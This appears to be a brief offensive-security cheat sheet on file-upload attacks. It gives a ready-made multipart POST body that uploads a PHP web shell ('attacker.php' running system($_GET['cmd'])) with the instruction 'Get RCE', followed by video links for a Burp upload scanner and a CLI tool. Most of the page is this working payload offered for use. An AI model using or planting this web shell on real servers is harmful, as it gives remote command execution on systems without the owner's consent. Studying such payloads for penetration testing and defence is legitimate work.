 ### Add this in POST Request & Get RCE

```
-----------------------------------------------99999999999999999999999
Content-Disposition: form-data; name="rce.php"; filename="attacker.php"
Content-type: application/x-php

<?php

system($_GET["cmd"]);

?>
-----------------------------------------------99999999999999999999999
```

### Burp Extension (Upload Scanner):-
https://www.youtube.com/watch?v=dc_57FaKj3E

### A CLI Tool:-
https://www.youtube.com/watch?v=RpLtycOYjfs
